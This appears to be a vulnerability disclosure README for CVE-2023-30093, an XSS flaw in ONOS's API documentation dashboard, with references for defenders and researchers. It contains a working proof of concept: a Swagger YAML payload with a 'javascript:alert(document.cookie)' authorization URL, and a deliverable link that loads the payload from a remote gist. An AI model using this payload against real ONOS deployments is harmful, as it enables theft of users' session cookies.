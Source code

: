 # CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093 (youtube video): 

[![youtube poc](https://img.youtube.com/vi/jZr2JhDd_S8/0.jpg)](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

PoC URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml>

References
------

- <https://www.edoardoottavianelli.it/CVE-2023-30093>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-30093>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093>
- <https://github.com/advisories/GHSA-q63q-hwf6-3mw6>
- <https://www.tenable.com/cve/CVE-2023-30093>
- <https://www.opencve.io/cve/CVE-2023-30093>
- <https://avd.aquasec.com/nvd/2023/cve-2023-30093/>
- <https://cve.report/CVE-2023-30093>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
